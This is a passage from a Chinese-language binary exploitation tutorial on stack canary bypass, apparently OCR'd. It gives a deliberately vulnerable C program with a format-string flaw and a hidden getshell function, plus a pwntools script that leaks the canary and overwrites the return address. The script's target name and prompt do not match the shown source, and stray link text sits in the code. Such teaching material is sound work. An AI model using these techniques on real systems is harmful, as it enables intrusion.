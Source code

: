 已知Canary储存在TLS中，在函数返回前会使用这个值进行对比。当溢出尺寸较大时，可以同时覆盖栈上储存的Canary和TLS储存的Canary实现绕过。


## **3.利用示例**

存在漏洞的示例源代码如下:

```cpp
// ex1.c
#include <stdio.h>
#include <unistd.h>
#include <string.h>
void getshell(void) {
    system("/bin/sh");
}
void init() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}
int main(void) {
    int i;
    init();
    char buf[100];
    for(i=0;i<2;i++){
        scanf("%s",&buf);
        printf(buf);
    }
    return 0;
}
```

编译为32bit程序，开启NX，ASLR，Canary保护
![-w600](media/15107152089668/15107154540302.jpg)

### **3.1泄露Canary示例**
首先通过覆盖Canary最后一个"\x00"字节来打印出4位的Canary
之后，计算好偏移，将Canary填入到相应的溢出位置，实现Ret到getshell函数中

```cpp
#!/usr/bin/env python

from pwn import *

context.binary = 'ex2'
#context.log_level = 'debug'
io = process('./ex2')

get_shell = 0x804859d

io.recvuntil("Hello Hacker!\n")

# leak Canary
payload = "A"*100
io.sendline(payload)

io.recvuntil("A"*100)
Canary = u32(io.recv(4))-0xa
log.info("Canary:"+hex(Canary))

# Bypass Canary
payload = "\x90"*100+p32(Canary)+"\x90"*12+p32(get_shell)
enter link description here
io.send(payload)

```